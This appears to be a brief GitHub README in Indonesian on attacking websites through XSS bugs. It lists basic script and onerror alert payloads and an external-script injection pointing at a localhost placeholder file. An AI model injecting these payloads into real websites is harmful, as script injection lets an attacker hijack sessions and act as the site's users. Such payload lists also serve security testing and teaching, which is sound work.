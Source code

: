 # XSS-Attack
Penyerangan dengan memanfaatkan Bug XSS pada website.

## XSS Payload
### Basic
```
<img src="x" onerror="alert('XSS')">
<script>alert('XSS')</script>
```

### External JavaScript
```
<script src="http://localhost:8089/yourscript.js"></script>
```
